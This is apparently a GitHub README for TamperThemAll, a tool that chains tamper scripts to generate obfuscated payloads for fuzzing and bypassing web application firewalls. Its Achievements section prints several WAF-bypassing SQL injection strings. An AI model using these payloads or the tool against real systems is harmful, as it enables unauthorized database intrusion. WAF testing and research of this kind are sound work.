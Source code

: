 # TamperThemAll
A tampered payload generator to Fuzz Web Application Firewalls for Testing and Bypassing.

### [*] Know 'How and Why'
This tool aims to facilitate testers in the evaluation process of the goodness of a WAF (for development or bypassing purposes).  
TTA takes in input a string representing your payload, it doesn't matter what kind of vulnerability it exploits (SQLi, XSS, CMD Injection etc.), and gives back a payloads set with the input string chain-tampered in all the possible combinations and permutations created by mixing and chaining all the available tampering scripts in WhatWAF in order to maximize the possibility of a Bypass based on these techniques.  
An associations file is also created as tampering session tracker, it is used to find out what chain produced a certain payload, useful function for the post exploitation phase in which you have a set of bypassing payloads and no idea of where they come from (-search option in the tool).  
Detailed Concept explained in the Medium article:
https://medium.com/@thesauruss/a-payload-tamperer-for-waf-bypassing-tamperthemall-tta-ef35d43a608c

### [*] CMD Options
```
  -h, --help            show this help message and exit
  -p PAYLOAD, --payload PAYLOAD
                        Base payload between single or double quotes (depends
                        on which kind of quotes the payload contains)
  -l CHAINLEN, --chainLen CHAINLEN
                        max number of tampering methods chained in a single tampering chain.
  -c CHAIN, --chain CHAIN
                        comma separated tampering chain, order matters (left
                        to right)
  -f TAMPERSLIST, --tampersList TAMPERSLIST
                        define your own tamper list to reduce the N
  -o OUTFILE, --outFile OUTFILE
                        output payloads list name
  -s SEARCH, --search SEARCH
                        search in a .association file what chain produced a
                        certain payload, also print(the 'payload evolution'
                        for further investigation. ex. -s
                        bypassingPayloadsFile,file.associations
  -a, --allTampers      print(available tamper scripts list
```
### [*] Usage Examples
##### Creating a Tampered payloads list
![unsageNormal](https://user-images.githubusercontent.com/25546186/67636036-964a9d80-f8cc-11e9-80f9-364f619d862e.png)

##### Creating a Tampered payloads list with a restricted tampers list
![reducedTampers](https://user-images.githubusercontent.com/25546186/67636071-df9aed00-f8cc-11e9-88ff-6ded85249d22.png)

##### Single tamperChain using
![chooseMode](https://user-images.githubusercontent.com/25546186/67636086-0eb15e80-f8cd-11e9-8f99-dd1249aeee02.png)

##### Search mode of what chains produced the bypassing payloads
This mode is used when you have bypassed the WAF using the produced payloadList and want to find out which chains produced the bypassing payloads. Useful to produce a better PoC or for reasearch purposes about the WAF Normalization Function.
![searchMode](https://user-images.githubusercontent.com/25546186/67636050-b8442000-f8cc-11e9-98d6-e451acd4dc06.png)

### [*] Achievements
When I started coding it I didn’t expect a single bypass, but at the end of the research I managed to bypass 3/3 of the given WAFs (Modsecurity and two proprietary solutions) in many different ways (XSS, SQLi and Command Injections).  
The tests were in Whitebox and the plaintext payload was initially blocked by the WAFs.  
Examples of crafted SQLi bypassing payloads:  
Strict SQLi Module of a proprietary WAF  
```
\u62acroot\uaab3'+%7C%7C+1=1;+--+-
root'++++++++%7C%7C++++++++1=1;++++++++--++++++++-
```
Default SQLi Module  
```
roo/**/t\\'%0Cor%091=1;%0A--%0C-
/*!00000root'+%7C%7C+1=1;+--+-*/
root'%0Cor%091=1;%09--%0D-
/*!00000root'+or+1=1;+--+-*/
```
At the end of the testing phase the vulnerability with more bypasses found was the SQLi with 32 bypasses for the basic module (23 on a solution and 9 on another) and 3 bypasses for the strict SQLi protection module (on the same WAF).

### [*] Call for Contributors
Everyone interested in the development of this tool and technique, please contact me on twitter or linkedin.

**TODO LIST**:

**-** Add new Tampering Scripts. To add them you simply have to create a file containing the function (named as the file) and add it in the tampers folder. You also have to add the following line in the __init__.py under tampers/ dir:
```from tampers.yourTamperFileName import *```

**-** Add an option to specify which kind of vulnerability you want to exploit with the basePayload in order to create separate tampers lists for each vulnerability (this will reduce the number of payloads and requests sent to the WAF, the less you send the less you annoy)

**-**  Add a payload analysis phase to reduce the tampering script pool. Example: a payload that does not contain spaces should not be tampered with space_to_tab or other scripts related to that char.

**-**  Add a feature to load a list of base payloads from file in order to create a single payloads list for multiple base payloads, resulting bypasses can be separated in the search option by adding the referred base payload in the .associations file for each crafted payload. This should make it easier to test many base payloads at a time, instead of crafting a payloads list for each plain payload.

## A special thanks to WhatWaf
It is a tool by EkultekThe used to detect a firewall on a web application, and attempting to detect a bypass.  
The Available tampering scripts used in this tool are taken from his tool.  
Check it out here: https://github.com/Ekultek/WhatWaf
### [*] Author
Lacerenza Francesco - Systems and Networks Security Student.
twitter: [@lacerenza_fra](https://twitter.com/lacerenza_fra)
linkedin: [lacerenzafrancesco](https://www.linkedin.com/in/francesco-lacerenza/)
